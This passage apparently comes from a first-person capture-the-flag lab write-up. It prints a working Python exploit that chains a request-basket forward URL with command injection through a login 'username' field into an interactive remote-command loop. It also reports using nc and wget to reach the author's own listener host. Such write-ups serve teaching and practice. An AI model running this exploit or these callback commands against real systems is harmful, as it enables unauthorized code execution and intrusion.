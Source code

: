 ```python
s = requests.session()

def postTarget():
    target_url = f'{args.target}/api/baskets/{args.basket}'
    payload = {
        "forward_url": args.forward,
        "insecure_tls": False,
        "proxy_response": True,
        "expand_path": True,
        "capacity": 250
    }
    response = s.post(target_url, json=payload, timeout=2.50)
    print(f'[{response.status_code}] {response.text}')
    
def commandInjection(cmd):
    target_url = f'{args.target}/{args.basket}/login'
    command = urllib.parse.quote_plus(f';`{cmd}`')
    payload = {
        "username": command,
        "hash": "145e5a296fbfc8c6182ddff9a21eba2fa3897d61de023b2dde1c7c330dccc78a",
        "nonce": "7qK7ycjX7Ypt"
    }
    response = s.post(target_url, data=payload, timeout=10.0)
    print(f'[{response.status_code}] {response.text}')

postTarget()
while True:
    try:
        cmd = input("> ")
        commandInjection(cmd)
    except (requests.exceptions.ReadTimeout,
            requests.exceptions.ConnectTimeout) as e:
        print(e)
    except KeyboardInterrupt as e:
        print("Exiting...")
        break

```

With the modifications to the script complete, I'll try it again:

![command injection 2](command%20injection%203.png)

:grin: Alright! Looks like I've got command injection. My attempts with `nc 10.10.14.4 4444` and `wget http://10.10.14.4:8000` were both successful:

![command injection 2](command%20injection%202.png)

![command injection 4](command%20injection%204.png)


